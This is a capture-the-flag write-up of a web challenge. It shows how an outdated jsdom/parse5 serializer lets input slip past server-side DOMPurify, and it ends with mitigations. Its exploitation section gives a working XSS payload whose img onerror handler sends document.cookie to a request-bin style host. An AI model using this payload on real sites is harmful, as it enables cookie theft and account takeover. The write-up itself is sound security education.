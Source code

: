 ```yaml
---
title: Air smeller
author: D_K
description: I found this website where you can rate the smell of the air, after purification. Do you know a good purifier, maybe you can recommend some purifier to the people.
categories:
    - Web
year: 2025
---
```


# TL;DR<a id="TL;DR"></a>
    **- Challenge Setup:** This challenge is about a **DOMPurify** bypass
    **- Key Discoveries:** **DOMPurify** is used server-side
    **- Vulnerability:** The used **JSDOM** library to offer a DOM parser for **DOMPurify** is outdated
    **- Exploitation:** By abusing an implementation but in the old **JSDOM** version, we can bypass **DOMPurify**

# 1. Introduction<a id="introduction"></a>
This web challenge aimed to identify and exploit a bypass in **DOMPurify** to achieve Cross-Site Scripting (XSS) and ultimately steal the admin's cookie. The challenge description already hints at the role of a sanitizer in the exploitation process.
<span>
In the following sections, we walk through the entire process, from the initial analysis to the final exploitation.

# 2. Reconnaissance<a id="reconnaissance"></a>
Fortunately, the source code for the website is provided in this challenge. It is a small website built with **Next.js** using **React** and written in **TypeScript**. An admin bot, using **Chromium**, checks the website every 60 seconds and carries the flag in its cookie. Moreover, the attribute `httpOnly: false` allows us to access the cookie via JavaScript, so there is a high probability that this is an XSS challenge.
<span>
On the landing page, where we can submit our ratings, the input is reflected in both input fields:

![landing page](ctf/writeups/cscg/airsmeller/landing_page.png "landing page")

But it seems like there is some kind of sanitizer removing malicious input from the comment field and thus preventing XSS. A closer look at the source code in `src/components/ratings.tsx` reveals that the sanitizer used for filtering malicious comments is **DOMPurify**, a very popular and powerful XSS sanitizer. The sanitized output is then injected into the comment section using **React**'s `dangerouslySetInnerHTML`. It functions similarly to the traditional `innerHTML` in vanilla JavaScript. Thus, the comment input field acts as an HTML injection vector. The reason for this design decision could be to allow users to style their comments in a fancy way with some HTML tags. This means that bypassing **DOMPurify** should be enough to have an XSS.
<span>
In this challenge, **DOMPurify** is used server-side, so it requires a DOM parser. The challenge uses **jsdom** for this purpose and a look at the `package.json` reveals that **DOMPurify** is slightly outdated. Notably, to exploit the mXSS-style bypass, which was patched in the latest version, requires a non-default configuration of **DOMPurify**, enabling the `SAFE_FOR_TEMPLATES` option; we don't have the luxury of this in this challenge.
<span>
More interestingly, the version of **jsdom** v19.0.0 is quite old. Reviewing the [README](https://github.com/cure53/DOMPurify?tab=readme-ov-file\#running-dompurify-on-the-server) of **DOMPurify** confirms that the older version of **jsdom** may introduce vulnerabilities:

```
Running DOMPurify on the server requires a DOM to be present, which is probably no surprise. Usually, jsdom is the tool of choice and we strongly recommend using the latest version of jsdom.

Why? Because older versions of jsdom are known to be buggy in ways that result in XSS even if DOMPurify does everything 100% correctly. There are known attack vectors in, e.g. jsdom v19.0.0 that are fixed in jsdom v20.0.0 - and we really recommend keeping jsdom up to date because of that.
```

# 3. Bypassing DOMPurify - Finding differentials<a id="bypassing DOMPurify - finding differentials"></a>
Bypassing **DOMPurify** is challenging when it is used correctly. Typically, you would use the latest version of **DOMPurify** client-side so that the sanitizer uses the same DOM parser as the browser rendering the website. When using a sanitizer like **DOMPurify**, the untrusted payload is parsed at least two times:
<span>
The first time, by the DOM parser used by **DOMPurify**, and the second time by the DOM parser of the browser, the website is being rendered on. Using the **DOMPurify** client-side avoids parser differentials that originate from **DOMPurify** using a different parser in the backend than the client. Nevertheless, bypassing even the latest version of **DOMPurify** running client-side is not impossible. If you are interested in the whole topic around mutation XSS (mXSS), I can highly recommend [this article](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes).
<span>
As mentioned, the challenge uses **DOMPurify** server-side with an outdated DOM parser **jsdom**. This design decision might be intended to prevent malicious payloads from reaching the server's database, reducing the overhead for clients and ensuring that even a tampered client gets sanitized content. Essentially, the challenge goal is to find bugs in the parser or serializer implementation of **jsdom** and exploit them. With the help of such a bug, we could craft a malicious payload so the **DOMPurify** sanitization process using **jsdom** won't detect it. But when the payload is being rendered in **Chromium** with its underlying **DOMParser**, this will lead to malicious behavior. To find the differential, we have to dive deep into the source code of **jsdom** and its underlying parser and serializer, **parse5**.
<span>
With the outdated **jsdom** version, we review the corresponding [release notes](https://github.com/jsdom/jsdom/releases/tag/20.0.0) and discover several noteworthy fixes introduced in **jsdom** v20.0.0:

```
Updated parse5, bringing along some HTML parsing and serialization fixes. (fb55)
```

This change motivates us to examine the exact [code modifications](https://github.com/jsdom/jsdom/commit/2e355263e5cae2e4647b0956f777c0abd2c62d5b). Aside from updating the underlying HTML parser and serializer **parse5** to v7.0.0, nothing particularly exploitable in **jsdom** itself is immediately apparent. Further investigation into the [release notes](https://github.com/inikulin/parse5/releases/tag/v7.0.0) for **parse5** v7.0.0 reveals a significant [pull request](https://github.com/inikulin/parse5/pull/383) titled:

```
Refactor & improve serializer
```

Moreover, an interesting [issue](https://github.com/inikulin/parse5/issues/333) describes a bug in the HTML serializer where the namespace of any content is not properly checked before decoding and applying it to the corresponding node. For example, given input like:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

**jsdom**'s `innerHTML` serializes it as:

```html
<svg><style><</style></svg>

<style>&lt;</style>
```

whereas **Chromium**'s **DOMParser**, following the HTML specification, serializes it as:

```html
<svg><style>&lt;</style></svg>

<style>&lt;</style>
```

In short, **jsdom** decodes the opening tag in the SVG namespace, which is not valid per the [HTML specification](https://html.spec.whatwg.org/#serialising-html-fragments). During initialization, **DOMPurify** creates a document with:

```javascript
doc = new DOMParser().parseFromString(dirtyPayload, PARSER_MEDIA_TYPE);
```

The **jsdom** implementation of `parseFromString` uses the **parse5** [parser](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/parser/index.js). Eventually after sanitization, **DOMPurify** calls:

```javascript
let serializedHTML = WHOLE_DOCUMENT ? body.outerHTML : body.innerHTML;
```

This will internally use the **parse5** [serializer](https://github.com/inikulin/parse5/blob/v6.0.0/packages/parse5/lib/serializer/index.js), which has the aforementioned namespace-dependent bug. Thus, the malicious payload is processed in the following stages, each potentially modifying its HTML structure and representation:
<span>
Dirty HTML → **parse5** parser → **DOMPurify** sanitizer → **parse5** serializer → **Chromium** **DOMParser**
<span>
**DOMPurify** assumes that the DOM parser implements the HTML specifications correctly. In this case, it doesn't interpret the `&lt;` as an opening tag, because it relies on the output of the **jsdom** serializer. The serializer treats it as a text node `#text` within the `style` tag, similar to regular content, for example, in a `p` tag. However, after sanitization calling `innerHTML` and thus using the buggy **parse5** serializer, the harmless `&lt;` is decoded as an actual HTML opening tag `<`, causing **DOMPurify** to return a malicious payload with the encoded tag. So effectively, in this challenge **DOMPurify** itself potentially makes harmless inputs harmful.
<span>
There are additional bugs in **parse5** v6.0.0, such as [this one](https://github.com/inikulin/parse5/pull/451), which might also be exploitable in this challenge. The difference from the previously described bug is that this one occurs in the **parse5** parser, whereas the earlier bug was in the **parse5** serializer. According to the HTML specification, the closing tags `</br>` and `</p>` must not be children of `<svg>` or `<math>` elements. If they are placed inside these elements, they are automatically moved outside, effectively closing the `<svg>` or `<math>` tags. For instance, a payload like:

```html
<svg></br><a>
```

will be serialized by **jsdom**'s `innerHTML` as

```html
<svg><span><a></a></svg>
```

while **Chromium**'s **DOMParser** serializes it as:

```html
<svg></svg><span><a></a>
```

It is worth noting that all of this code search in GitHub was not necessary to uncover the parser differentials and even a working payload for the challenge. For more insights into parsing differentials used to bypass HTML sanitizers like **DOMPurify**, I refer to [this research paper](https://www.ias.cs.tu-bs.de/publications/parsing_differentials.pdf).

# 4. Exploitation<a id="exploitation"></a>
The final payload is straightforward once you understood the serializer bug in **parse5**:

```html
<svg><style>&lt;img src onerror='window.location=(`reqest-bin/${document.cookie}`)';><a>
```

By using the encoded opening tag `&lt;`, we can inject an image tag with an `onerror` event past the **DOMPurify** sanitizer. This event triggers a redirect to our webhook, effectively exfiltrating the cookie that contains the flag `CSCG{0ld_A1r_Smeels_B4d}`.

# 5. Mitigation<a id="mitigation"></a>
The vulnerability is about using **DOMPurify** with an outdated version of **jsdom** (and consequently an outdated **parse5** version). Updating these dependencies would resolve the issue. So always precisely read the documentation on how to use security-relevant libraries like **DOMPurify**. Additionally, shifting **DOMPurify** from a server-side to a client-side implementation would prevent parser and serializer differentials, as the same DOM parser would be used throughout. Implementing a robust Content Security Policy (CSP) further restricts JavaScript execution, adding another layer of defense against XSS. Morover, try to use `httpOnly` cookies on your website if none of your javascript needs to access cookies. Finally, if not absolutely necessary, avoid using `innerHTML` (or in this case `dangerouslySetInnerHTML`) with untrusted input.

# 6. Flag<a id="flag"></a>
CSCG{0ld_A1r_Smeels_B4d}
